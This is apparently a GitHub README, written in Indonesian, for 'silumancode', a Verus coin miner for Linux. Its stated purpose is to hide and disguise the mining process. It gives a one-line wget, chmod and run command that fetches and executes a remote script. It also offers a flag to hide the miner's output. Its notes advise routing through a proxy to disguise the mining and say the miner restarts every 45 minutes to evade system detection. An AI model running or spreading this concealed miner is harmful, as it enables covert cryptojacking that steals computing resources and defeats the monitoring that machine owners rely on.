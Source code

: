 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
- Keterangan :
        - wallet : alamat walet verus miner anda.
        - pool   : pool mining verus coin (usahakan menggunakan proxy).
        - thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia).
        - y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan).
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
dan jika ingin menyembunyikan tampilan proses miner bisa menggunakan opsi (y) di akhir kode
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y
![tampilan example II](images/cmsil2.png)
### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 
